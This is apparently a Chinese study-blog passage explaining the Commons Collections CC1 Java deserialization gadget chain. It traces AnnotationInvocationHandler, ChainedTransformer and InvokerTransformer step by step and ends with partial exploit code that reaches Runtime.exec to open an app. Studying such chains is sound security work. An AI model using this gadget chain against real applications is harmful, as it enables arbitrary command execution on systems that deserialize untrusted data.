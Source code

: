 ![image-20250217222513068](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217222513185.png)

我们最后要找一个readobject去实现，然后发现AnnotationInvocationHandler的readObject方法中遍历了一个map，并调用了它entry的setValue方法，但此时，setValue方法的参数不可控

![image-20250217214421270](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217214421311.png)

这时候我们可以来看ConstantTransformer的transform方法，无论传入的参数为什么，返回值始终为iConstant，而iConstant在构造方法中赋值

![image-20250217214642496](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217214642540.png)

所以直接将ConstantTransformer添加到传入ChainedTransformer的数组Transform[]的第一个值

ConstantTransformer(Runtime.class)调用transform的返回值为Runtime.class，作为参数传入数组第二部分即变为new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class)，他的返回值传入第三部分，即实现了嵌套使用InvokerTransformer来调用的功能，也解决了AnnotationInvocationHandler的readObject方法调用setValue时参数不可控的问题

发现执行不成功

![image-20250217224244576](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217224244701.png)

进到AnnotationInvocationHandler的readObject方法，有个memberType不等于null判断，这里要看type是什么

![image-20250217224320088](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217224320168.png)

type是实例化AnnotationInvocationHandler方法的第一个参数，获取他的成员方法和传入的map的key做对比

![image-20250217224610069](/Users/sine/Library/Application Support/typora-user-images/image-20250217224610069.png)

Target.class有成员变量value，所以要把map的key值改成value

![image-20250217225005683](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217225005774.png)

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CC1Test1 {

    public static void main(String[] args) throws Exception {
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open /Applications/NeteaseMusic.app"})
        });
```